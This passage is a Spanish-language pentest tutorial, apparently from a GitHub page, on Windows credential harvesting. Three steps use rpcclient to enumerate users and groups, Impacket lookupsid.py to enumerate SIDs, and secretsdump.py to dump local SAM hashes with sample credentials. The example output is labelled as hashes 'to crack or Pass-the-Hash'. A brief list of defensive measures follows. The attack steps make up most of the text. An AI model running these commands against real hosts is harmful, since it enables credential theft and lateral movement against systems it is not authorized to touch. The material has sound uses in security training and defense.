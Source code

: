 
##### 🔧 Paso 1: Usar `rpcclient`

```bash
rpcclient -U admin_local%Admin123 192.168.1.15
```

Comandos dentro:

```bash
rpcclient> enumdomusers
rpcclient> queryuser 0x1f5
rpcclient> enumdomgroups
```

---

##### 🔧 Paso 2: Usar Impacket - `lookupsid.py`

```bash
lookupsid.py admin_local:Admin123@192.168.1.15
```

Verás algo como:

```
S-1-5-21-11223344-500 Administrator
S-1-5-21-11223344-1000 admin_local
S-1-5-21-11223344-1001 juan
```

---

##### 🔧 Paso 3: Dump con `secretsdump.py`

```bash
secretsdump.py admin_local:Admin123@192.168.1.15
```

Resultado:

```
[*] Dumping local SAM hashes (Registry)
Administrator:500:aad3...:8846f7ea...:::
juan:1001:aad3...:7c4a8d09...:::
```

🔐 Hashes obtenidos para crackear o Pass-the-Hash

---

### 🛡️ ¿Cómo defenderse?

- Restringir acceso SMB y RPC (puertos 445 y 135)
- No compartir cuentas locales con misma contraseña
- Usar firewalls internos
- Activar Windows Defender Credential Guard
- Auditar intentos de conexión remota

---
